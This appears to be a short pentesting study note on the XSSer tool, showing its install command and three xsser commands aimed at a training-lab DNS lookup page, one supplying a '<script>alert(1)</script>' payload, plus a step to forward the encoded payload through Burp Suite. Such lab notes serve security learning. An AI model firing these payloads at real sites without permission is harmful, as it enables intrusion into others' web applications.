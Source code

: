 ```yaml
---
title: XSSer - # An automated Web Pentesting Framework Tool to Detect and Exploit XSS vulnerabilities
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting, web pentesting
---
```


# XSSer - An automated Web Pentesting Framework Tool to Detect and Exploit XSS vulnerabilities

A Cross Site Scripter (or XSSer) is an automatic framework to detect, exploit and report XSS vulnerabilities in web-based applications.

## Installation

```bash
sudo apt install xsser
```

## Usage 

The following commands are used in combination with BurpSuite:

```
xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'

xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto

xsser --url 'http://demo.ine.local/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"
```

With this, the encoded XSS payload is generated. Now, in Burp Suite, replace the POST parameters with the final attack payload and forward the request.

